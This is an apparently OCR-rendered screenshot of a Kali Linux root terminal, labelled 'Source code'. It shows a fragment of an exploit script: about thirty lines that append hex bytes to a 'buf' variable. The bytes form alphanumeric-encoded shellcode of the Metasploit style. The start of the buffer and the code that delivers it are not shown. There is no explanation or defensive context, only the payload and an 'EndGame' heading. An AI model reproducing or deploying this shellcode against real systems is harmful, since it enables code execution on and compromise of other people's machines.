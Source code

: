 ```term_session
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x59\x6c\x49\x78\x4f\x72\x77\x70\x45\x50\x77\x70\x73"
buf += b"\x50\x6c\x49\x58\x65\x34\x71\x39\x50\x51\x74\x6e\x6b"
buf += b"\x30\x50\x76\x50\x6e\x6b\x66\x32\x64\x4c\x4e\x6b\x52"
buf += b"\x72\x37\x64\x4e\x6b\x51\x62\x67\x58\x36\x6f\x4f\x47"
buf += b"\x61\x5a\x64\x66\x36\x51\x69\x6f\x4c\x6c\x55\x6c\x31"
buf += b"\x71\x51\x6c\x37\x72\x34\x6c\x75\x70\x59\x51\x68\x4f"
buf += b"\x56\x6d\x76\x61\x78\x47\x59\x72\x5a\x52\x56\x32\x51"
buf += b"\x47\x6c\x4b\x76\x32\x64\x50\x6e\x6b\x61\x5a\x47\x4c"
buf += b"\x4e\x6b\x52\x6c\x57\x61\x52\x58\x6d\x33\x70\x48\x63"
buf += b"\x31\x4a\x71\x73\x61\x4c\x4b\x66\x39\x55\x70\x77\x71"
buf += b"\x58\x53\x4e\x6b\x62\x69\x45\x48\x49\x73\x74\x7a\x42"
buf += b"\x69\x6e\x6b\x76\x54\x6c\x4b\x45\x51\x78\x56\x35\x61"
buf += b"\x49\x6f\x4e\x4c\x59\x51\x78\x4f\x76\x6d\x65\x51\x39"
buf += b"\x57\x65\x68\x4d\x30\x31\x65\x69\x66\x76\x63\x31\x6d"
buf += b"\x4a\x58\x37\x4b\x31\x6d\x54\x64\x54\x35\x79\x74\x52"
buf += b"\x78\x4e\x6b\x33\x68\x44\x64\x56\x61\x38\x53\x50\x66"
buf += b"\x6e\x6b\x74\x4c\x52\x6b\x6e\x6b\x32\x78\x77\x6c\x73"
buf += b"\x31\x4b\x63\x4c\x4b\x67\x74\x4e\x6b\x63\x31\x6e\x30"
buf += b"\x4e\x69\x77\x34\x36\x44\x64\x64\x71\x4b\x63\x6b\x51"
buf += b"\x71\x66\x39\x31\x4a\x36\x31\x39\x6f\x59\x70\x43\x6f"
buf += b"\x43\x6f\x62\x7a\x6c\x4b\x55\x42\x38\x6b\x6e\x6d\x43"
buf += b"\x6d\x42\x4a\x53\x31\x4c\x4d\x6d\x55\x6c\x72\x67\x70"
buf += b"\x33\x30\x77\x70\x50\x50\x53\x58\x75\x61\x4c\x4b\x30"
buf += b"\x6f\x6b\x37\x49\x6f\x78\x55\x6f\x4b\x69\x70\x57\x6d"
buf += b"\x45\x7a\x37\x7a\x53\x58\x4e\x46\x5a\x35\x4d\x6d\x6f"
buf += b"\x6d\x59\x6f\x39\x45\x47\x4c\x36\x66\x51\x6c\x45\x5a"
buf += b"\x4d\x50\x39\x6b\x39\x70\x50\x75\x55\x55\x4f\x4b\x70"
buf += b"\x47\x46\x73\x64\x32\x62\x4f\x72\x4a\x65\x50\x71\x43"
buf += b"\x69\x6f\x4e\x35\x53\x53\x30\x61\x42\x4c\x75\x33\x76"
buf += b"\x4e\x75\x35\x61\x68\x61\x75\x37\x70\x41\x41"
root@kali:~# 
```

# EndGame
